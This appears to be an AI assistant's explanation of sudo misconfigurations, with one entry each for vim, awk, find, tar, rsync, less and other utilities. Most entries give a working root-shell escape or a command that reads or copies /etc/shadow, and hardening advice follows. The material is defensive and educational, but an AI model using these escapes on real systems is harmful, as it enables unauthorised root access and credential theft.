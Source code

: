Privilege escalation vulnerabilities like granting sudo access to `less` occur when a user has been given the ability to run certain commands with elevated privileges without a full understanding of the potential risks. Here are some examples of commands or utilities that could allow privilege escalation if misconfigured, along with an explanation of how they can be exploited:

---

### 1. **Granting Sudo Access to `vim` or `nano`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/vim
     ```
   - **Exploit:**
     A user can open `vim` with elevated privileges and then spawn a shell:
     ```bash
     sudo vim
     :!bash
     ```
     This gives the user a root shell.

---

### 2. **Granting Sudo Access to `cat`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /bin/cat
     ```
   - **Exploit:**
     A user can use `cat` to read sensitive files like `/etc/shadow` or `/etc/sudoers`:
     ```bash
     sudo cat /etc/shadow
     ```

---

### 3. **Granting Sudo Access to `awk`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/awk
     ```
   - **Exploit:**
     `awk` can be used to execute arbitrary commands:
     ```bash
     sudo awk 'BEGIN {system("/bin/bash")}'
     ```

---

### 4. **Granting Sudo Access to `find`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/find
     ```
   - **Exploit:**
     `find` can execute arbitrary commands:
     ```bash
     sudo find / -exec /bin/bash \;
     ```

---

### 5. **Granting Sudo Access to `python` or `perl`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/python
     ```
   - **Exploit:**
     Both `python` and `perl` can execute interactive shells:
     ```bash
     sudo python -c 'import os; os.system("/bin/bash")'
     sudo perl -e 'exec "/bin/bash";'
     ```

---

### 6. **Granting Sudo Access to `tar`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /bin/tar
     ```
   - **Exploit:**
     `tar` can be used to execute commands:
     ```bash
     sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
     ```

---

### 7. **Granting Sudo Access to `cp`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /bin/cp
     ```
   - **Exploit:**
     The user could copy sensitive files (e.g., `/etc/shadow`) to an accessible location:
     ```bash
     sudo cp /etc/shadow /home/user/shadow_copy
     ```

---

### 8. **Granting Sudo Access to `bash` or `sh`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /bin/bash
     ```
   - **Exploit:**
     This effectively gives the user root access:
     ```bash
     sudo bash
     ```

---

### 9. **Granting Sudo Access to `less` (Revisited)**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/less
     ```
   - **Exploit:**
     As demonstrated earlier, users can drop to a shell:
     ```bash
     sudo less /etc/hosts
     !bash
     ```

---

### 10. **Granting Sudo Access to `rsync`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/rsync
     ```
   - **Exploit:**
     `rsync` can be used to spawn a shell:
     ```bash
     sudo rsync -e 'sh -c "sh"' localhost:/tmp /tmp
     ```

---

### 11. **Granting Sudo Access to `scp`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/scp
     ```
   - **Exploit:**
     `scp` can execute commands on a remote host, potentially exposing sensitive data.

---

### How to Secure Against These Issues
1. **Follow the Principle of Least Privilege:**
   Only grant sudo access to commands absolutely necessary for a user's role.

2. **Use Command Whitelists:**
   Be specific about the allowed commands and avoid using wildcards.

3. **Audit Sudoers File:**
   Regularly review `/etc/sudoers` to ensure no unnecessary permissions are granted.

4. **Implement Logging and Monitoring:**
   Use tools to monitor and log all privileged commands executed by users.

5. **Use Alternatives for Restricted Tasks:**
   Consider using role-based access control (RBAC) systems for more granular control.

Let me know if you'd like to test any of these commands in your Docker container or need further explanations!
